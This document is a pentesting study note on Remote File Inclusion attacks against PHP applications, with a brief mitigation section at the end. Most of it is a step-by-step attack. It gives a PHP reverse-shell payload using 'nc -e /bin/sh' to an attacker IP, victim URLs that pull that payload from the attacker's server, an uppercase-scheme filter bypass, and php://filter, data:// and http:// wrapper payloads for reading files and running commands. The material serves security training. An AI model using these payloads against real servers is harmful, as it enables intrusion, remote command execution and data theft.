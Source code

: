 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# RFI attack - Remote File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).


## php 

In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```
**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```

## Wrappers

### PHP wrapper

php://filter : allow the attacker to include local file and base64 encode as the output:

```
http://IPdomain/rfi.php?language=php://filter/convert.base64-encode/resource=recurso.php
```

PHP filter without base64 encode:

```
php://filter/resource=flag.txt
```


### DATA wrapper

```
http://IPdomain/rfi.php?language=data://text/plain,<?php system('$_GET("cmd")');?>&cmd=whoami
```

### HTTP wrapper

```
http://IPdomain/rfi.php?language=http://SERVERIP/shell.php
```

## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 